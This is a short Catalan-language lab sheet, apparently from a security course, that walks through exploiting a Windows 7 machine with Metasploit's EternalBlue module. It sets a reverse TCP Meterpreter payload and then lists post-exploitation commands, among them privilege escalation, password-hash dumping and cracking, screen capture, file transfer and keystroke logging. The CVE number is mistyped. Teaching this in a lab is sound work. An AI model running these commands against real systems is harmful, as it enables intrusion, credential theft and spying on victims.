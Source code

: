 ## En aesta pràctica prepararem la màquina `Windows 7 ` per a poder realitzar algunes activitats amb Metasploit.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

### Explotar vulnerabilitat `CVE-2017-010` amb Eternalblue i Doublepulsar des de Metasploit

* Simplement utilitzem el següent exploit:

`use exploit/windows/smb/ms17_010_eternalblue`...i ens torna el control mitjançant un **shell o un Meterpreter** (Metainterprete:payload que permet carregar i injectar en un programa del sistema atacat les extensions que em desenvolupat en format .dll). 

* i payload `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

Ja estem dins...

 Comandaments:
    * sysinfo
    * pwd
    * getuid
    * migrate pid 
    * getsystem
    * hashdump -> crackstation(desxifra el md5)
    * screenshot
    * upload de kali a win7
    * download de W7 a Kali.
    * keyscan_start keyscan_dump.